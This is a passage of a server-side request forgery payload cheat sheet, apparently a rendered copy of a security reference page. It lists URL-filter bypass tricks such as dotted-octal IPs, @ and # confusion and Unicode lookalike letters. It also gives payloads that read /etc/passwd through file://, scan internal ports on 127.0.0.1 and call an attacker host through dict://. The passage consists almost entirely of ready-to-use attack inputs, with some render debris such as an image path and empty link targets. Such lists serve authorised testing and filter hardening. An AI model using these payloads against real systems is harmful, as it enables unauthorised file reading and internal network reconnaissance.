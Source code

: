 [http://0251.00376.000251.0000376/](.) Dotted octal with padding

[http://whitelist-domain.internal_domain_or_ip/page](.)

[http://whitelist-domain@internal_domain_or_ip/page](.)

[http://internal_domain_or_ip#.whitelist-domain/page](.)

[http://internal_domain_or_ip?.whitelist-domain/page](.)

[http://internal_domain_or_ip\.whitelist-domain/page](.)

[https://ⓦⓦⓦ.ⓗⓐⓗⓦⓤⓛ.ⓒⓞⓜ = www.hahwul.com](.)

[https://whitelist-domain.hahwul.com](.)

[https://whitelist-domain@hahwul.com](.)

[https://www.example.com#whitelist-domain](.)

[https://www.example.com?whitelist-domain](.)

[https://www.example.com\whitelist-domain](.)

[https://www.example.com&whitelist-domain](.)

[http:///////////www.example.com](.)

[http:\\www.example.com](.)

[http:\/\/www.example.com](.)


## SSRF exploitation via URL Scheme

- File
Allows an attacker to fetch the content of a file on the server

[file://path/to/file](.)

[file:///etc/passwd](.)

[file://\/\/etc/passwd](.)

ssrf.php?url=file:///etc/passwd

- HTTP
Allows an attacker to fetch any content from the web, it can also be used to scan ports.

[ssrf.php?url=http://127.0.0.1:22](.)

[ssrf.php?url=http://127.0.0.1:80](.)

[ssrf.php?url=http://127.0.0.1:443](.)

- Dict
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>

ssrf.php?url=dict://attacker:11111/
